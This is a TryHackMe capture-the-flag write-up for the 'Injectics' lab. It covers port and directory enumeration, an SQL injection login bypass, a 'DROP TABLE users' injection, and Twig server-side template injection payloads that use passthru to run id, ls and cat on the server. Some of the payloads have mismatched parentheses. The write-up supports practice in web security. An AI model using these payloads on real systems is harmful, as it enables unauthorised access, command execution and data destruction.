










# Injectics - TryHackMe Writeup

## Enumeration

We have the IP - `10.10.140.45`, let's start enumerating using SSH.

```bash
┌──(kali㉿kali)-[~/Desktop/thm]
└─$ nmap -sV -sT -p- -Pn 10.10.140.45 --min-rate=5000
```

### Nmap Scan Results
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-31 12:34 EST
Nmap scan report for 10.10.140.45  
Host is up (0.15s latency).  
Not shown: 65445 filtered tcp ports (no-response), 88 closed tcp ports (conn-refused)  
PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)  
80/tcp open  http    Apache httpd 2.4.41  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  
```  
SSH and HTTP are open, so let's visit the website.


## Source Code Analysis

Checking the page source, we find credentials in a comment:


```
Name - John Tim
Email - dev@injectics.thm
```

Adding `injectics.thm` to `/etc/hosts`:
```bash
echo "10.10.140.45   injectics.thm" >> /etc/hosts
```

## Directory Enumeration

Using `dirsearch` to find hidden directories:
```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ dirsearch -u http://injectics.thm
```

### Interesting Results:
```
[13:01:59] 302 -    0B  - /dashboard.php  ->  dashboard.php
[13:02:32] 200 -    1KB - /login.php
[13:02:42] 301 -  319B  - /phpmyadmin  ->  http://injectics.thm/phpmyadmin/
[13:02:44] 200 -    3KB - /phpmyadmin/index.php
[13:02:34] 200 -    1KB - /mail.log
```

Checking `mail.log` and `phpmyadmin`:



## Database Credentials

Found credentials:
```
User - dev@injectics.thm
User - superadmin@injectics.thm

Default credentials:
| Email                    | Password   |
| ------------------------ | ---------- |
| superadmin@injectics.thm | <REDACTED> |
| dev@injectics.thm        | <REDACTED> |
```

Checking `composer.json` for vulnerabilities:
```json
{
  "require": {
    "twig/twig": "2.14.0"
  }
}
```

Twig is a templating engine, possibly vulnerable to SSTI.



## SQL Injection

Navigating to the login page:



Testing SQLi with Burp Suite:

Payload:
```
' OR 'x'='x'#
```
This logs us in as Dev.

Using SQL injection to drop the users table:
```
; DROP TABLE users;
```

Logging in as `superadmin@injectics.thm` with `<REDACTED>(password)` and obtaining the first flag:



```
THM{REDACTED}
```

## Server-Side Template Injection (SSTI)

Testing SSTI on the leaderboard page and update profile section.



SSTI found in the First Name field:



Testing template injection:


```
{{['id',""]|sort(('passthru'))}}
```


Listing files:


```
{{['ls',"-la"]|sort(('passthru'))}}
```




Identifying the flag file:


```
{{['ls(flags',""]|sort('passthru'))}}
```




Reading the flag:


```
{{['cat(flags/5d8af1dc14503c7e4bdc8e51a3469f48.txt',""]|sort('passthru'))}}
```




Final flag:
```liquid
THM{REDACTED}
```

---
